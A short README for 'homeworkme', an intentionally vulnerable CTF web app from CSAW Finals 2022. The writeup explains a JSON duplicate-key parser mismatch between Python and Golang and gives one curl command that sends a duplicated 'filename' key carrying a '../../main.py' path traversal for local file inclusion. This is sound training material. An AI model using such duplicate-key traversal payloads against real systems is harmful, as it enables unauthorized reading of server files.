 # homeworkme
A vulnerable web app involving JSON interoperability and LFI developed for CSAW Finals 2022

Homework files are stored in `/service/files` and are sorted by hard-coded subjects. Files inside the subjects will automatically be detected by the service.

## writeup
- Python last key precedence
- Golang jsonparser first key precendence

```bash
curl -X POST -d '{"filename": "[EXISTING FILE]", "filename": "../../main.py", "subject": "math"}' http:/
/localhost:1234/homework
```
## references
- https://github.com/BishopFox/json-interop-vuln-labs
- https://bishopfox.com/blog/json-interoperability-vulnerabilities
